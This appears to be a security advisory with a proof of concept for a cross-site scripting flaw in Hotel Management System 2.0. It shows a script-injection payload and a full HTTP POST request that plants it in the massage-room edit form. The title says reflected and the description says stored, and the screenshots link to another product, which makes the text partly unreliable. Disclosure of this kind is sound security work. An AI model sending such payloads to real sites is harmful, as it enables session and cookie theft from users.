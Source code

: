 #### Title: Hotel Management System 2.0 Reflected Cross-Site Scripting
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 03.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-codeigniter-hotel-management-system-source-code
#### Version: 2.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Refelected)/POC.md

#### Description：
#### Hotel Management System is vulnerable to Stored cross-site scripting on the massage_room edit page. The "Massageroom Details" parameter in 'http://localhost/ci_hms/massage_room/edit/1' is vulnerable.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.

#### Payload used:
`"><script>alert("XSS")</script>`


### POC

```
POST /ci_hms/massage_room/edit/1 HTTP/1.1
Host: localhost
Content-Length: 147
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/ci_hms/massage_room/edit/1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: ci_session=hdp38os27crl5o0pejuev0b32scfp0pv
Connection: close

massageroomOpenTime=11%3A00&massageroomCloseTime=18%3A00&massageroomDetails=%60%22%3E%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%60%09%09%09%09
```

![image](https://github.com/CyberThoth/CVE/blob/37f3162287d4da5362ea0a408bd0e1c970b39c3e/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Cross%20Site%20Scripting(Stored)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/37f3162287d4da5362ea0a408bd0e1c970b39c3e/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Cross%20Site%20Scripting(Stored)/2.png)

![image](https://github.com/CyberThoth/CVE/blob/37f3162287d4da5362ea0a408bd0e1c970b39c3e/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Cross%20Site%20Scripting(Stored)/3.png)